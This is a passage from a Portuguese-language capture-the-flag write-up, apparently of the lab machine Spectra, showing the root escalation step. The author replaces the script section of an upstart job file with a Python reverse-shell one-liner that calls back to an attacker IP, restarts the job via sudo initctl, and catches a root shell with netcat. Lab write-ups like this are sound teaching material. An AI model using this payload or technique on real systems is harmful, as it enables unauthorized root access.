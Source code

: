Para obter acesso de root, bastou alterar o job executado por um destes arquivos para iniciar um shell reverso para a máquina atacante com acesso privilegiado e assim, obter a flag de root.

Neste caso escolhi o arquivo `/etc/init/test10.conf`, que possuía o conteúdo abaixo e alterei apenas a sua seção script, conforme segundo bloco abaixo.

```bash
katie@spectra ~ $ cat /etc/init/test10.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script
```

```bash
# Edited portion
script
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
end script
```

Após edição do arquivo, iniciado listener e executado o comando abaixo com a conta de katie, obtendo o shell reverso e flag

```bash
# At Spectra as Kali
katie@spectra /etc/init $ sudo /sbin/initctl stop test10
initctl: Unknown instance:
katie@spectra /etc/init $ sudo /sbin/initctl start test10
test10 start/running, process 4947
```

```bash
# At attacker machine
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.229] 33606
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smiley:

